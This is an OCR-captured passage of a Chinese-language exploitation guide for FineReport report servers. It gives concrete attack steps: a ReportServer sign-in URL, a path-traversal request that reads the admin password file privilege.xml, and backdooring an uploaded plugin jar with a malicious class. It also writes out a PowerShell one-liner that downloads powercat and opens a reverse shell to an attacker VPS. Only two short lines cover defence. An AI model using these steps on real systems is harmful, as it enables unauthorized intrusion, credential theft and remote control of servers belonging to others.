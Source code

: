   

**6.** **漏洞利用**

帆软报表v8.0 Getshell漏洞分析 | ADog’s Blog  
http://foreversong.cn/archives/1378

xray/finereport-directory-traversal.yml at master chaitin/xray  
https://github.com/chaitin/xray/blob/master/pocs/finereport-directory-traversal.yml

  

**7.** **利用技巧**

1.未设置密码或者读取读取管理员密码  
https://seeyoon.com/seeyonreport/ReportServer?op=fs_load&cmd=fs_signin&_=1560911828892

这里很有可能是没有设置密码的, 修改密码进入后台就可以了

如果设置里密码, 尝试这个接口

/report/ReportServer?op=chart&cmd=get_geo_json&resourcepath=privilege.xml,读取管理员密码, 然后使用上文的解密程序解密

  

2.后台getshell

这种后台能装插件的都随便getshell，先去下载一个指定版本的jar包，本地测试环境是9.0，下载com.fr.plugin.external-1.3.4.zip

https://shop.finereport.com/plugin/2d36b210-2a59-4940-8c4f-f3f16d58cd66

http://shopps.finereport.com/com.fr.plugin.external-1.3.4.zip?e=1561433162&token=GYG9vMioxqbEgx-5HoAMAelD0zGdUrXT4UZ3w-d1:N-PeIkhKkjCY7LHdqelnSvp_LmA=编译一个恶意的LocaleFinder.class打包进去，复制LocaleFinder.class到

\com.fr.plugin.external-1.3.4.zip\fr-plugin-external-1.3.4\fr-plugin-external-1.3.4.jar\com\fr\plugin\external\locale\进入到插件管理界面,上传符合规范的jar包插件即可没生效就访问一下https://xxxx/seeyonreport/ReportServer?op=im一般后台都是win,可以直接使用powershell进行反弹shellpowershell

IEX(New-Object System.Net.Webclient).

DownloadString('https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1');

powercat -c vps_ip -p 6666 -e cmd

  

**8.** **防护方法**

1.及时更新补丁

2.使用waf拦截  

  

12  
  

  

  

SaltStack认证绕过复现
===============

  

===
